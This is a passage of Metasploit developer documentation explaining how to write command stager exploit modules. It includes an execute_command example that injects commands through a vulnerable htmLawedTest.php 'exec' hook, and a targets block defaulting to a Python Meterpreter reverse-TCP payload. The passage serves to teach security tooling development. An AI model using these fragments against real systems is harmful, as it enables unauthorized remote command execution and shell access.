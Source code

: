 Or, you can pass this info to the `execute_cmdstager` method (see Step 4 to begin).

```ruby
execute_cmdstager(flavor: :vbs)
```

However, it is best to set the compatible list of flavors in `CmdStagerFlavor`, rather than hard-coding the flavor in the `execute_cmdstager` method call, as this allows the operator to choose a flavor from `msfconsole` with `set CmdStager::flavor`


**3. Create the execute_command method**

You also must create a ```def execute_command(cmd, opts = {})``` method in your module. This is how you define how to execute a command on the target.  The parameter `cmd` is the command to execute.  When writing the ```execute_cmd``` method, remember that a great deal of work might already be done for you.  Here is an example of a web host that executes a command as part of a request:
```bigquery
  def execute_command(cmd, _opts = {})
    populate_values if @sid.nil? || @token.nil?
    uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
  end
```
Since the command is encapsulated within a request, it will be encoded for us.  When building and debugging an execute_command method that uses web requests, remember that `set httptrace true` will automatically display the http traffic as it is sent and received.

**4. Decide on the supported payloads**

CmdStagers are intended to support payloads that are uploaded, saved to disk, and launched, but many of the payloads in Metasploit Framework do not need to be saved to disk; these payloads are `ARCH_CMD` payloads that rely on software already present on the target system like `netcat`, `bash`, `python`, or `ssh`.  Depending on whether the payload needs to be saved to disk or not changes what payloads are supported and how we launch the payload, so we must provide the user the ability to pick between the two.
The best way to let the user decide what kind of payload to use is by defining separate [[targets|Get-Started-Writing-an-Exploit.md]]

Here is an example targets section from a command injection module:

```
    'Targets' => [
      [
        'Unix Command',
        {
          'Platform' => 'unix',
          'Arch' => ARCH_CMD,
          'Type' => :unix_cmd,
          'DefaultOptions' => {
            'PAYLOAD' => 'cmd/unix/python/meterpreter/reverse_tcp',
            'RPORT' => 9000
          }
        }
      ],
      [
```